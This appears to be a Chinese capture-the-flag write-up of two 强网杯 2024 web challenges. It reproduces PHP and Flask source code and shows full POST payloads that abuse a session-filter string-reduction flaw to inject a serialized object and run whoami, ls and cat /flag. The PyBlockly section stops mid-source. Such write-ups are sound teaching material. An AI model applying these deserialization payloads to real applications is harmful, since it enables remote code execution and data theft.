强网杯 2024 初赛 Web Challenge Walkthrough
强网杯 2024 Web Challenge Walkthrough，仅两题
Web
[2024 强网杯]platform
扫描目录得到源码
/www.zip源码如下
index.php
<?php
session_start();
require 'user.php';
require 'class.php';
$sessionManager = new SessionManager();
$SessionRandom = new SessionRandom();
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
$username = $_POST['username'];
$password = $_POST['password'];
$_SESSION['user'] = $username;
if (!isset($_SESSION['session_key'])) {
$_SESSION['session_key'] =$SessionRandom -> generateRandomString();
}
$_SESSION['password'] = $password;
$result = $sessionManager->filterSensitiveFunctions();
header('Location: dashboard.php');
exit();
} else {
require 'login.php';
}class.php
<?php
class notouchitsclass {
public $data;
public function __construct($data) {
$this->data = $data;
}
public function __destruct() {
eval($this->data);
}
}
class SessionRandom {
public function generateRandomString() {
$length = rand(1, 50);
$characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
$charactersLength = strlen($characters);
$randomString = '';
for ($i = 0; $i < $length; $i++) {
$randomString .= $characters[rand(0, $charactersLength - 1)];
}
return $randomString;
}
}
class SessionManager {
private $sessionPath;
private $sessionId;
private $sensitiveFunctions = ['system', 'eval', 'exec', 'passthru', 'shell_exec', 'popen', 'proc_open'];
public function __construct() {
if (session_status() == PHP_SESSION_NONE) {
throw new Exception("Session has not been started. Please start a session before using this class.");
}
$this->sessionPath = session_save_path();
$this->sessionId = session_id();
}
private function getSessionFilePath() {
return $this->sessionPath . "/sess_" . $this->sessionId;
}
public function filterSensitiveFunctions() {
$sessionFile = $this->getSessionFilePath();
if (file_exists($sessionFile)) {
$sessionData = file_get_contents($sessionFile);
foreach ($this->sensitiveFunctions as $function) {
if (strpos($sessionData, $function) !== false) {
$sessionData = str_replace($function, '', $sessionData);
}
}
file_put_contents($sessionFile, $sessionData);
return "Sensitive functions have been filtered from the session file.";
} else {
return "Session file not found.";
}
}
}login.php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>用户登录</title>
<style>
body {
background-color: #f0f4f8;
font-family: Arial, sans-serif;
display: flex;
justify-content: center;
align-items: center;
height: 100vh;
margin: 0;
}
h1 {
text-align: center;
color: #333;
margin-bottom: 20px;
}
.login-container {
background-color: #fff;
border-radius: 10px;
box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
padding: 30px;
width: 300px;
}
label {
display: block;
margin-bottom: 5px;
color: #555;
}
input[type="text"],
input[type="password"] {
width: 100%;
padding: 10px;
margin-bottom: 15px;
border: 1px solid #ddd;
border-radius: 5px;
box-sizing: border-box;
}
input[type="submit"] {
background-color: #007BFF;
color: white;
border: none;
padding: 10px;
border-radius: 5px;
cursor: pointer;
width: 100%;
font-size: 16px;
}
input[type="submit"]:hover {
background-color: #0056b3;
}
</style>
</head>
<body>
<div class="login-container">
<h1>用户登录</h1>
<form action="index.php" method="post">
<label for="username">用户名:</label>
<input type="text" id="username" name="username" required>
<label for="password">密码:</label>
<input type="password" id="password" name="password" required>
<input type="submit" value="登录">
</form>
</div>
</body>
</html>dashborad.php
<?php
include("class.php");
session_start();
if (!isset($_SESSION['user'])) {
header('Location: login.php');
exit();
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>任何人都可以登录的平台</title>
<style>
body {
background-color: #f0f4f8;
font-family: Arial, sans-serif;
display: flex;
flex-direction: column;
align-items: center;
justify-content: center;
height: 100vh;
margin: 0;
text-align: center;
}
h1 {
color: #333;
margin-bottom: 20px;
}
p {
color: #555;
font-size: 18px;
margin: 0;
}
.session-info {
background-color: #fff;
border-radius: 10px;
box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
padding: 20px;
width: 300px;
margin-top: 20px;
}
</style>
</head>
<body>
<h1>欢迎来到任何人都可以登录的平台</h1>
<div class="session-info">
<p>你好，<?php echo htmlspecialchars($_SESSION['user']); ?>！</p>
</div>
</body>
</html>
user.php
<?php
class User {
private $validUser = [
'username' => 'admin',
'password' => 'password'
];
public function authenticate($username, $password) {
return true;
}
}随意登录
搭建 docker 进行本地调试
首先对解题思路进行分析
当访问 index.php 时，会将多个信息存入 session 中，根据 php 中session 的机制，这些信息会存储在本地文件内
//index.php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
$username = $_POST['username'];
$password = $_POST['password'];
$_SESSION['user'] = $username;
if (!isset($_SESSION['session_key'])) {
$_SESSION['session_key'] =$SessionRandom -> generateRandomString();
}
$_SESSION['password'] = $password;$SessionRandom -> generateRandomString() 的作用，是调用 class.php 中 SessionRandom 的 generateRandomString() 函数，这个函数会按照给定的字符生成一个一些随机值并返回
class SessionRandom {
public function generateRandomString() {
$length = rand(1, 50);
$characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
$charactersLength = strlen($characters);
$randomString = '';
for ($i = 0; $i < $length; $i++) {
$randomString .= $characters[rand(0, $charactersLength - 1)];
}
return $randomString;
}
}当直接访问 index.php ，不输入账号密码时


当输入账号密码时，可以看到信息都被存入 session 文件中
admin/admin

然后看 class.php ，这个文件内容是关于一些自定义函数和魔术方法，当访问 index.php ，就会触发 class.php 的 SessionMaganer->filterSesnsitiveFunctions()
关键点在这里，会对 session 文件内容进行替换，假如匹配到指定字符串则替换为空，存在字符串溢出减少漏洞
private $sensitiveFunctions = ['system', 'eval', 'exec', 'passthru', 'shell_exec', 'popen', 'proc_open'];
....
foreach ($this->sensitiveFunctions as $function) {
if (strpos($sessionData, $function) !== false) {
$sessionData = str_replace($function, '', $sessionData);
}
}继续看 class.php ，notouchitsclass 对象中存在 eval() 函数，反序列化的时候会触发，结合前面的 session 内容写入，可以总结出生成序列化字符串写入 session 中，然后反序列化这一串思路
class notouchitsclass {
public $data;
public function __construct($data) {
$this->data = $data;
}
public function __destruct() {
eval($this->data);
}
}接下来就是找到反序列化的点，哪里会将程序进行反序列化：
在 dashboard.php 存在中 session_start() 函数，要读取 session 文件，就得在读取时进行反序列化
<?php
...
session_start();
...
?>
在本地继续测试，输入 admin/system ，按照源码，system 本应该会被替换为空，但是看到本地实际上 session 文件中 password 仍然为 system

修改程序进一步调试

再次发包，看到 sessionFile 得到的值为 /sess_abc ，而本地内部默认存储的是 /tmp/sess_xx 路径，因此本地的程序并不像理论上的进行运行

找到问题，给 $sessionPath 赋值上 /tmp 即可

再次发包，本地的 system 被正确替换了


这里字符串溢出就很明显，字符被替换为空，但前面的数字不变
s:6:"";在正式进行字符串溢出漏洞利用之前，先做一步确认 dashboard.php 会触发反序列化
准备要序列化的内容，当反序列化时，就会触发 class.php 的 notouchitsclass.__destruct() 的魔术方法
<?php
class notouchitsclass {
public $data = "system('echo OK > /tmp/OK');";
}
$a = new notouchitsclass();
echo serialize($a);
//O:15:"notouchitsclass":1:{s:4:"data";s:28:"system('echo OK > /tmp/OK');";}
直接本地将 session 内容修改
user|O:15:"notouchitsclass":1:{s:4:"data";s:28:"system('echo OK > /tmp/OK');";}......
访问 dashboard.php ，提示权限不够

本地 docker 的默认用户是 root ，修改之后，它默认权限也变为了 root ，将 session 文件权限降级
chown www-data:www-data /tmp/sess_abc

访问 /dashboard.php ，本地生成了 /tmp/OK ，说明反序列化确实执行了
接下来就是 字符串溢出减少的利用
溢出减少的条件之一：两个相连可控参数，利用传参数组创造这个条件


字符串溢出当有源码时可以本地调试时，构造技巧，可以直接让源码打印出替换后的值，然后改一次发一次，取出来再微调。
构造初步 Payload
username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:17:"system('whoami');";}}发现当传入之后，这里的 system 被替换为空了

补上双写(双写的同时不能修改前面的数值，因为双写后有一个 system 会被替换为空)
username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:17:"syssystemtem('whoami');";}}多次请求，将 session 写入，然后请求 dashboard.php ，本地测试成功

接下来打远程 !
发包时会返回 302 重定向，跳转到 dashboard.php ，不管它，多发几次，将内容写入 session

然后访问 dashboard.php ，成功执行 whoami

username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:15:"syssystemtem('ls /');";}}
username=admin&password[]=systemsystem&password[]=";i:1;O:15:"notouchitsclass":1:{s:4:"data";s:20:"syssystemtem('cat /flag');";}}
[2024 强网杯]PyBlockly

根目录服务为 JS Blockly 积木块，当拼接积木然后 send 发送时，会发送一个 JSON 数据，如发送 1111

返回了 
源码如下：
app.py // Flask Web服务核心源码
from flask import Flask, request, jsonify
import re
import unidecode
import string
import ast
import sys
import os
import subprocess
import importlib.util
import json
app = Flask(__name__)
app.config['JSON_AS_ASCII'] = False
blacklist_pattern = r"[!\"#$%&'()*+,-./:;<=>?@[\\\]^_`{|}~]"
def module_exists(module_name):
spec = importlib.util.find_spec(module_name)
if spec is None:
return False
if module_name in sys.builtin_module_names:
return True
if spec.origin:
std_lib_path = os.path.dirname(os.__file__)
if spec.origin.startswith(std_lib_path) and not spec.origin.startswith(os.getcwd()):
return True
return False
def verify_secure(m):
for node in ast.walk(m):
match type(node):
case ast.Import:
print("ERROR: Banned module ")
return False
case ast.ImportFrom:
print(f"ERROR: Banned module {node.module}")
return False
return True
def check_for_blacklisted_symbols(input_text):
if re.search(blacklist_pattern, input_text):
return True
else:
return False
def block_to_python(block):
block_type = block['type']
code = ''
if block_type == 'print':
text_block = block['inputs']['TEXT']['block']
text = block_to_python(text_block)
code = f"print({text})"
elif block_type == 'math_number':
if str(block['fields']['NUM']).isdigit():
code = int(block['fields']['NUM'])
else:
code = ''
elif block_type == 'text':
if check_for_blacklisted_symbols(block['fields']['TEXT']):
code = ''
else:
code = "'" + unidecode.unidecode(block['fields']['TEXT']) + "'"
elif block_type == 'max':
a_block = block['inputs']['A']['block']
b_block = block['inputs']['B']['block']
a = block_to_python(a_block)
b = block_to_python(b_block)
code = f"max({a}, {b})"
elif block_type == 'min':
a_block = block['inputs']['A']['block']
b_block = block['inputs']['B']['block']
a = block_to_python(a_block)
b = block_to_python(b_block)
code = f"min({a}, {b})"
if 'next' in block:
block = block['next']['block']
code +="\n" + block_to_python(block)+ "\n"
else:
return code
return code
def json_to_python(blockly_data):
block = blockly_data['blocks']['blocks'][0]
python_code = ""
python_code += block_to_python(block) + "\n"
return python_code
def do(source_code):
hook_code = '''
def my_audit_hook(event_name, arg):
blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
if len(event_name) > 4:
raise RuntimeError("Too Long!")
for bad in blacklist:
if bad in event_name:
raise RuntimeError("No!")
__import__('sys').addaudithook(my_audit_hook)
'''
print(source_code)
code = hook_code + source_code
tree = compile(source_code, "run.py", 'exec', flags=ast.PyCF_ONLY_AST)
try:
if verify_secure(tree):
with open("run.py", 'w') as f:
f.write(code)
result = subprocess.run(['python', 'run.py'], stdout=subprocess.PIPE, timeout=5).stdout.decode("utf-8")
os.remove('run.py')
return result
else:
return "Execution aborted due to security concerns."
except:
os.remove('run.py')
return "Timeout!"
@app.route('/')
def index():
return app.send_static_file('index.html')
@app.route('/blockly_json', methods=['POST'])
def blockly_json():
blockly_data = request.get_data()
print(blockly_data)
print(type(blockly_data))
blockly_data = json.loads(blockly_data.decode('utf-8'))
print(blockly_data)
try:
python_code = json_to_python(blockly_data)
return do(python_code)
except Exception as e:
return jsonify({"error": "Error generating Python code", "details": str(e)})
if __name__ == '__main__':
app.run(host = '0.0.0.0')index.html //网站根目录 JS 服务，会给 /blockly_json 发送 POST 请求及数据
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>PyBlockly</title>
<script src="https://unpkg.com/blockly/blockly.min.js"></script>
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
</head>
<body>
<h1>PyBlockly</h1>
<div id="blocklyDiv" style="height: 480px; width: 600px;"></div>
<button id="saveButton">Send</button>
<xml id="toolbox" style="display: none">
<block type="text"></block>
<block type="math_number"></block>
<block type="math_arithmetic"></block>
<block type="print"></block>
<block type="max"></block>
<block type="min"></block>
</xml>
<script>
// Define custom 'print' block
Blockly.defineBlocksWithJsonArray([{
"type": "print",
"message0": "print %1",
"args0": [
{
"type": "input_value",
"name": "TEXT"
}
],
"previousStatement": null,
"nextStatement": null,
"colour": 160,
"tooltip": "Prints a value",
"helpUrl": ""
}]);
// Define custom 'max' block
Blockly.defineBlocksWithJsonArray([{
"type": "max",
"message0": "max of %1 and %2",
"args0": [
{
"type": "input_value",
"name": "A"
},
{
"type": "input_value",
"name": "B"
}
],
"output": "Number",
"colour": 230,
"tooltip": "Returns the maximum of two numbers",
"helpUrl": ""
}]);
// Define custom 'min' block
Blockly.defineBlocksWithJsonArray([{
"type": "min",
"message0": "min of %1 and %2",
"args0": [
{
"type": "input_value",
"name": "A"
},
{
"type": "input_value",
